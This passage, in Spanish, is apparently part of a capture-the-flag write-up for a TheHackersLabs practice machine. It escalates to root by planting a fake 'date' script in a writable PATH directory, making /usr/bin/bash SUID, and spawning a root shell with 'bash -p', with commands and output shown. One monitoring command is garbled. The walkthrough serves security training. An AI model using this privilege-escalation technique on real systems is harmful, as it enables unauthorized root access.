 Si nos fijamos en el **PATH** vemos que hay un directorio dentro del home del usuario en el que tenemos permiso de escritura. También vemos que usa el comando `date` sin la ruta completa. Vamos a realizar un **path hijacking**. Creamos un fichero con el nombre **date** y con permiso de **ejecución** en el directorio **/home/securitybot/.local/bin:**

```bash
#!/bin/bash
chmod +s /usr/bin/bash
```

Ahora esperamos a que se ejecute la tarea:

```bash
securitybot@TheHackersLabs-Securitron:~$ watch -n 1 ls -l /usr/watch -n 1 ls -l /usr/bin/bash
```

Y ya solo queda ejecutar `bash -p` para ser **root**:

```bash
securitybot@TheHackersLabs-Securitron:~$ bash -p
bash-5.2# whoami
root
bash-5.2# hostname
TheHackersLabs-Securitron
bash-5.2#
```